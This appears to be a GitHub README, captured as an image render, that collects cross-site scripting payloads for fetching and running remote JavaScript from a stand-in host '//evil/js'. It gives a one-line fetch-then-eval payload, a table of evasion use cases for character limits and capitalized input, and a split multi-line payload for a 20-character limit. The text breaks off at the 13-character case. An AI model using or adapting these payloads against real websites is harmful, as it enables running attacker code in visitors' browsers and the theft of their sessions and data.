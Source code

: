# fetch an external resource

For example purposes the malicious JavaScript is at `//evil/js`. Obviously this won't always work if the target is behind an egress firewall.

The payload, in a nutshell is:

```
fetch('//evil/js').then(r=>r.text().then(eval))
```

Encodings marked with :four_leaf_clover: in the ToC can be easily customized for arbitrary payloads using `fetch_helpers.py`.

# Table of Contents

* [Dealing with limited space](#dealing-with-limited-space)
  * [Usecase: character limit is &gt;= 20 (not including wrapping)](#usecase-character-limit-is--20-not-including-wrapping)
  * [Usecase: character limit is &gt;= 13 (not including wrapping)](#usecase-character-limit-is--13-not-including-wrapping)
  * :four_leaf_clover:[Usecase: character limit is &gt;= 10](#usecase-character-limit-is--10)
* [Dealing with input transformation](#dealing-with-input-transformation)
  * :four_leaf_clover:[Usecase: payload is being capitalized, character limit &gt;= 131 (not including wrapping and length of external resource URL)](#usecase-payload-is-being-capitalized-character-limit--131-not-including-wrapping-and-length-of-external-resource-url)
  * :four_leaf_clover:[Usecase: payload is being capitalized, character limit &gt; ~342 (not including wrapping, may vary depending on external resource URL)](#usecase-payload-is-being-capitalized-character-limit--342-not-including-wrapping-may-vary-depending-on-external-resource-url)
  * [Usecase: payload is being capitalized, character limit &gt;= 10](#usecase-payload-is-being-capitalized-character-limit--10)

---
### Dealing with limited space
The below usecases are for character limit that doesn't allow the full payload in a single injection. Each line is a separate payload that requires wrapping to put it in a JS context (e.g. `<script>`**_payload_**`</script>`).

##### Usecase: character limit is &gt;= 20 (not including wrapping)
* *Payloads order on the page doesn't matter.*

```
T=(o,f)=>o.then(f)
X=eval
Y='//evil/js'
Z=r=>T(r.text(),X)
J=_=>T(fetch(Y),Z)
setTimeout(_=>J(),9)
```

##### Usecase: character limit is &gt;= 13 (not including wrapping)
* *Payloads order on page __does__ matter.*

